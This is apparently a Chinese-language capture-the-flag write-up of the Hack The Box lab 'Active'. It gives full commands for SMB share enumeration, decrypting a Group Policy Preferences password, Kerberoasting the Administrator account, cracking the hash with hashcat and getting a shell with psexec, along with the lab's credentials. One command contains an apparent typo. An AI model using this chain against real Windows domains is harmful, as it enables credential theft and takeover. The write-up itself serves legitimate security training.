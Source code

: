 ```yaml
---
description: Easy / SMB共享 / 枚举
---
```


# ✔️ Active

## 建立立足点

### 信息收集&枚举

* 使用Nmap对目标系统进行开放端口扫描：

<figure><img src="../../.gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

* 顺便把IP地址和域名写进/etc/hosts中，以便后续使用：

<figure><img src="../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

* 使用Nmap查找一下相关的SMB漏洞：

```bash
# 过滤出本机上关于smb漏洞扫描的脚本：
local -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
```

<figure><img src="../../.gitbook/assets/3 (5).png" alt=""><figcaption></figcaption></figure>

```bash
nmap --script safe -p 445 10.129.85.245
```

<figure><img src="../../.gitbook/assets/4 (6).png" alt=""><figcaption></figcaption></figure>

没有什么收获：

<figure><img src="../../.gitbook/assets/6 (6).png" alt=""><figcaption></figcaption></figure>

查找到当前目标系统中SMB服务是2.0版本，使用smb-enum-services脚本也无收获，该脚本貌似是作用于SMB 1.0版本的：

<figure><img src="../../.gitbook/assets/7 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录SMB服务，并枚举其所有共享目录：

```bash
smbclient -L 10.129.85.245
```

<figure><img src="../../.gitbook/assets/9 (6).png" alt=""><figcaption></figcaption></figure>

分别用enum4linux和smbmap这两种工具对这些共享目录进行枚举以及确认当前权限：

```bash
# enum4linux：
enum4linux 10.129.85.245
# smbmap:
smbmap -H 10.129.85.245
```

<figure><img src="../../.gitbook/assets/10 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
smbmap比enum4linux好用
{% endhint %}

* 以上两个工具的输出结果显示，当前这个匿名登录账户对\`/Replication\`目录是可读的，因此可以把该目录下的所有文件内容递归下载到我的Kali本机中，再逐个查看其内容是否有可以利用的信息：

```bash
smbclient //10.129.85.245/Replication
# 连接上之后，依次执行：
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/5 (6).png" alt=""><figcaption></figcaption></figure>

* 在查看各个文件夹内容后，发现路径/{31B2F346-616D-11D2-945F-06C64FB984F9}/MACHTNE/Preferences/Groups目录下有个\`Groups.xml\`文件，这个文件中会用用户名和加密后的密码信息：

<figure><img src="../../.gitbook/assets/14 (4).png" alt=""><figcaption></figcaption></figure>

* 用gpp-decrypt解码后获得明文密码：

<figure><img src="../../.gitbook/assets/15 (5).png" alt=""><figcaption></figcaption></figure>

* 此时已获得有效凭证<mark style="color:red;">**svg\_tgs:GPPstillStandingStrong2k18**</mark>

### GET SHELL

* 利用已获得的有效凭证再次枚举目标系统的SMB服务，看看是否获得了更多的信息和权限：

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.113
```

<figure><img src="../../.gitbook/assets/16 (4).png" alt=""><figcaption></figcaption></figure>

* 果然发现多了几个共享目录可读。但与此同时，也用Impacket的GetADUsers.py脚本枚举除了目标系统上所有的用户：

```bash
python3 GetADUsers.py -all active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.138.113
```

<figure><img src="../../.gitbook/assets/17 (4).png" alt=""><figcaption></figcaption></figure>

* 貌似/Users目录有东西，用凭证登录后逐一查看发现flag：

```bash
smbclient //10.129.138.113/Users -U SVC_TGS%GPPstillStandingStrong2k18
ls
```

<figure><img src="../../.gitbook/assets/18 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息收集&枚举

* 使用ldapsearch查询活动账户在域控中的属性，过滤出特定目标账户：

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname |grep sAMAccountName
```

<figure><img src="../../.gitbook/assets/22 (2).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
serviceprincipalname | grep -B 1 servicePrincipalName
```

<figure><img src="../../.gitbook/assets/23 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 使用GetUserSPNs.py脚本，提取Administrator的hash:

```bash
python3 GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.138.113 -request
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将输出的哈希值存为hash.txt文件，然后用hashcat对它进行爆破以获取Administrator的明文密码：

```bash
hashcat -m 13100 hash.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/26 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得了管理员的明文密码<mark style="color:red;">**Ticketmaster1968，**</mark>配合psexec.py脚本获得管理员shell，成功root：

```bash
python3 psexec.py active.htb/Administrator@10.129.138.113 
```

<figure><img src="../../.gitbook/assets/29 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得flag：

<figure><img src="../../.gitbook/assets/30 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



{% hint style="info" %}
本例的考察重点是对目标SMB共享资源的枚举，属于简单级别的机器。

(本例机器重置过，所以IP地址中途有所改变，但不影响利用过程和结果)
{% endhint %}
